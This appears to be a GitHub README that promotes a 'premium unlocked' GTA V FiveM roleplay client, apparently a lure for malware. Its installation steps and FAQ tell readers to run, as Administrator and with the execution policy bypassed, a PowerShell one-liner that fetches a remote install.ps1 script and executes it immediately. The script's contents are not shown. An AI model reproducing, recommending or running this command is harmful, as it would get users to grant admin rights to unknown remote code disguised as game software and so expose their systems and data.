

<div align="center">


<br>


# GTA V FiveM Custom Economy Client
**Custom economy RP · Mod-ready client · Optimized connection**
<br>
Premium · Unlocked · Full build · Windows



**GTA V FiveM Custom Economy — roleplay client for custom economy servers, modded jobs and multiplayer RP communities on Windows.**

</div>

---

> This client is tuned for economy roleplay servers — connect to custom RP worlds with job systems, player markets and mod support without vanilla launcher limits.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🏙️ **Economy RP** — Built for servers with jobs, banking and player trade.
- 🔌 **FiveM ready** — Join custom servers from the community browser.
- 🧩 **Mod support** — Compatible with popular RP resources and scripts.
- ⚡ **Optimized netcode** — Stable connection settings for long sessions.
- 👥 **Community play** — Team up with friends on the same RP realm.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 120 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Do I need GTA V installed?</b></summary>
<br>Yes — FiveM requires an existing GTA V installation on your PC.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 120 GB free space.
</details>


TAGS
fivem, gta-v, roleplay, multiplayer, gaming, windows, software, community, modding, sandbox
